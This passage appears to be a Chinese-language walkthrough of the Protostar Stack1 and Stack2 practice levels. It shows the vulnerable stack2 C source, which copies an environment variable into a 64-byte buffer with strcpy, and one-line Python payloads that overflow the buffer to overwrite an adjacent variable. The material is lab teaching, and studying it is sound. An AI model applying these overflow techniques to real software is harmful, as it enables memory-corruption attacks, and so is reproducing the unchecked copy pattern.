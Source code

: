 传递一个参数，将参数复制到**buffer**中，`覆盖modifies变量`

```text
./stack1 `python -c "print('A'*64+'dcba')"`
```

## Stack2

### About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

{% code title="stack2.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
{% endcode %}

通过**getenv**获取了环境变量**GREENIE**，然后将**GREENIE**的内容复制到**buffer**中，我们这里通过**export**设置环境变量即可。

linux中**$\(\)** 和 **\`\`**都是用来做命令替换用的。

```text
export GREENIE=$(python -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')"); ./stack2
```
